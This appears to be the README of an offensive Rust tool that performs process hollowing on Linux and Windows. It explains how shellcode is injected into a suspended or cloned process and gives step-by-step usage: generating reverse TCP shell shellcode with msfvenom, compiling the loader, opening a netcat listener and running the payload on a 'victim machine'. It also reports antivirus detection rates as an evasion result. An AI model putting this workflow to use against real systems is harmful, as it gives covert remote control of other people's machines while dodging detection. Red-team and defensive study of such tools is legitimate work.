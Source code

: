 # RCO: Process Hollowing

[![Custom badge](https://img.shields.io/endpoint?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkmanc%2Fremote_code_oxidation%2Fmaster%2F.custom_shields%2Fprocess_hollowing.json)](https://github.com/kmanc/remote_code_oxidation/tree/master/process_hollowing)

Linux target               |  Windows target
:-------------------------:|:-------------------------:
![](https://user-images.githubusercontent.com/14863147/151645583-68e054fc-ba49-4691-bca6-4e924f8ad498.gif)  |  ![](https://user-images.githubusercontent.com/14863147/151642061-6df0f601-3f07-4e0c-aaf5-fbbc229de2e0.gif)


## How it works

Windows process hollowing works by createing a suspended process and writing the [shellcode](https://en.wikipedia.org/wiki/Shellcode) over the entry point of the process's main thread. It then resumes the suspended process, which in turn executes the shellcode.

Linux process hollowing functions a little differently. The executable first creates a child process that is a clone of itself. Then it overwrites the child process's [instruction pointer](https://datacadamia.com/computer/instruction/instruction_pointer) with shellcode. Because this process was not running before, it is unlikely this will cause any issues on the victim machine.

## Using it

1. [Not shown in GIF] Generate shellcode for the desired end result (for example, use [msfvenom](https://book.hacktricks.xyz/shells/shells/msfvenom) to generate a reverse TCP shell shellcode for the target operating system)
2. Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/rco_config/src/lib.rs) 
and change the shellcode to the shellcode generated in step 1
3. Compile the executable

    #### Build for Linux target
    ```commandline
    cargo build -p process_hollowing --release
    ```

    #### Build for Windows target
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p process_hollowing --release
    ```
4. Start a netcat listener on the attacking machine on the same port you configured the shellcode to connect to in step 1
    ```commandline
    nc -nlvp 4444
    ```   
5. Execute the payload on the victim machine
6. Return to the listener and enter desired commands for the victim machine to run


## Detection rates

[Linux - 7 / 40](https://kleenscan.com/scan_result/c9dd1d93fa8a1a62d136b0f3fbe22fb21cbf65851271e73b177624fd5afbdef9)

![image](https://user-images.githubusercontent.com/14863147/151645694-c5962e70-a507-4352-8e23-9e452da19c96.png)

[Windows - 13 / 40](https://kleenscan.com/scan_result/6b7fd667a386059a55c8408affc1c8365859c27cd8ad247ca191c2c0796e1ad4)

![image](https://user-images.githubusercontent.com/14863147/151645657-e1924972-f817-40a1-91a6-520e82a7dc01.png)
